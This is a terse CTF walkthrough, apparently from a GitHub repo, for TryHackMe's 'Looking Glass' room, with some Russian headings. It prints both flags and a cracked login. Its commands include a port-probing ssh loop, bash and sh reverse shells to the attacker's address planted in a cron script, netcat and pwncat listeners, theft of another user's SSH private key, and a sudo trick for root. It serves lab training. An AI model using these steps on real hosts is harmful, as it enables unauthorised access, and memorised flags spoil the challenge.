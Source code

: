 # <div align="center">[Looking Glass](https://tryhackme.com/r/room/lookingglass) </div>
<div align="center">Step through the looking glass. A sequel to the Wonderland challenge room.</div><br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b124b308-7bdd-408d-a13b-6e9218c4aa2d" height="200"></img>
</div>

### Task 1. Looking Glass
Climb through the Looking Glass and capture the flags.

### Get the user flag.
```
thm{65d3710e9d75d5f346d2bac669119a23}
```
```
nmap -sSCV -p- <IP>
for i in $(seq 9800 111111); do echo "connecting to port $i"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $i test@<IP>;done | grep -vE 'Lower|Higher'
#  jabberwocky
CyberChef > thealphabetcipher
jabberwock:bewareTheJabberwock

ssh jabberwock@<IP> -p 22
jabberwock:bewareTheJabberwock
cat uxer.txt
```
# ```+ 100``` Get the root flag.
```
thm{bc2337b6f97d057b01da718ced6ead3f}
```
# reverse
```
```commandline
thm{65d3710e9d75d5f346d2bac669119a23}
```
+ 100
Получите корневой флаг.
```commandline
sudo -l
cat /etc/crontab

vim twasBrillig.sh
sh -i >& /dev/tcp/<my_own_IP>/4444 0>&1

nc -nlvp 4444
ls -la
cat humptydumpty.txt
# SHA256
su humptydumpty
cat poetry.txt
cp /home/alice/.ssh/id_rsa /home/humptydumpty
chmod 600 id_rsa
ssh alice@<IP> -i id_rsa
bash -i >& /dev/tcp/<my_own_IP>/5555 0>&1
pwncat --listen --port 5555
chmod +x lse.sh
./lse.sh -l 1 | tee lse.txt
sudo -h ssalg-gnikool -l -l
sudo -h ssalg-gnikool /bin/bash
cat /root/root.txt
```
```commandline
thm{bc2337b6f97d057b01da718ced6ead3f}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
